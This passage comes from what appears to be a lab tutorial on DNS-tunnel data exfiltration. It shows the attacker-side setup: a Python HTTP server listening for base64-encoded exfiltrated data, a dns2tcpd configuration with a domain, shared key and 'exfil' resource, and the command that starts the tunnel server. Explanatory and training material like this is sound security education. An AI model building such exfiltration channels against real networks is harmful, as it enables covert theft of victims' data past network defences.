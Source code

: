 This creates a directory (`~/exfil`) where received data will go, and starts a basic HTTP server on port `9000`. 

**`-m http.server`**:
* The `-m` option **runs a module as a script**. 
* In this case, it's running the built-in `http.server` module. 
* This module spins up a basic HTTP server that serves files from the current directory.

It launches a simple HTTP file server in the current directory, accessible at:
```
http://<10.0.1.4>:9000/
```

When the victim sends a base64-encoded GET request (the data we are exfiltrating), it will be handled by this server.

_Below is a screenshot of the attacker's machine launching a simple HTTP server, which will listen for incoming exfiltrated data:_


#### b. Configuring the DNS server

Edit the configuration file:
```
sudo nano /etc/dns2tcpd.conf
```

We add the following:

```
domain = berrysafe.com
key = shhhh
resources = exfil:127.0.0.1:9000
```

This tells `dns2tcpd`:
- To accept requests for `berrysafe.com` 
- To use the shared key `shhhh`

- That `exfil` is a resource that forwards data to the local HTTP server at `127.0.0.1:9000`.

  - The IP address `127.0.0.1` is known as the **loopback address**. It always refers to the **local machine itself**, meaning any traffic sent to `127.0.0.1` is not sent out to the network but instead loops back internally to the host. This address is commonly used by programs to communicate within the same system. The hostname **"localhost"** typically resolves to the loopback address.


Then we start the DNS tunnel server:
```
sudo dns2tcpd -F -f /etc/dns2tcpd.conf
```

The `-f` flag tells `dns2tcpd` which configuration file to use, while the `-F` flag runs the server in the foreground, allowing us to monitor the DNS tunneling activity live.

This creates the server side of the DNS tunnel.


_Here, the attacker starts dns2tcpd, which begins listening for DNS-based tunnel connections from the victim:_
